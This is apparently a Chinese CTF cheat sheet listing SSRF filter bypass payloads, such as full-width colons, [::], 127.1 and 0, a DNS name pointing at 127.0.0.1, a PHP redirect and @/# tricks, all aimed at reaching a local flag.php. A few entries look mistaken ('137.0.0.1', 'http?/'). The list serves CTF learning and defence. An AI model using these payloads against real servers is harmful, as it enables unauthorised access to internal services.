 

#### 端口号绕过

```
url=http://127.0.0.1：8080/flag.php
```



#### [::]绕过

```
url=http://[::]:80
```



#### 短链接绕过

```
test.xxx.com -> 127.0.0.1
url=http://test.xxx.com/flag.php
```



#### 长度限制IP绕过

```
url=http://127.1/flag.php
url=http://0/flag.php
```



#### 重定向解析绕过

```php
<?php
    header("Location:http://127.0.0.1/flag.php");
```



#### match、@、#绕过

要是有匹配进行match，固定要某个字符的话，可以选择这种方式：

如强行要求数据中带有ctf、show等字样：

```
url=http://ctf.@137.0.0.1/flag.php#show
```



#### :冒号绕过

```
url=http?/127.0.0.1/flag.php
```


